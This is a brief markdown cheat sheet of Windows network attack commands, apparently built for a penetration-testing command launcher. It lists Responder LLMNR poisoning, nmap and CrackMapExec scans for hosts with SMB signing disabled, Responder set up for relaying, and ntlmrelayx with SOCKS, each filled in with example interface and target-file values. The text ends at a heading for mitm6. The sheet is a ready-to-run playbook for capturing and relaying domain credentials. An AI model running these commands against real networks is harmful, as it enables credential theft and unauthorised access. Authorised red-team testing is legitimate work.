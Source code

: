 # Spoofing

## Responder - LLMNR Poisoning

```
responder-http-on
responder-smb-on
responder -I <interface> -r -d -w
```

= interface: enp0s31f6

## SMB signing disabled - nmap

```
nmap -Pn --script smb-security-mode -p445 <target>
```

= target: ./targets/domain/computers.txt

## SMB signing disabled - cme

```
cme smb <target> --gen-relay-list <output_file>
```

= target: ./targets/domain/computers.txt

## Responder - Relay

```
responder-http-off
responder-smb-off
responder -I <interface> -r -d -w
```

= interface: enp0s31f6

## NTLM Relay with SOCKS (SMB)

```
ntlmrelayx -tf <targets_file> -socks -smb2support
```

= targets_file: ./targets/domain/relay_targets_computers.txt

## mitm6 for NTLM Relay
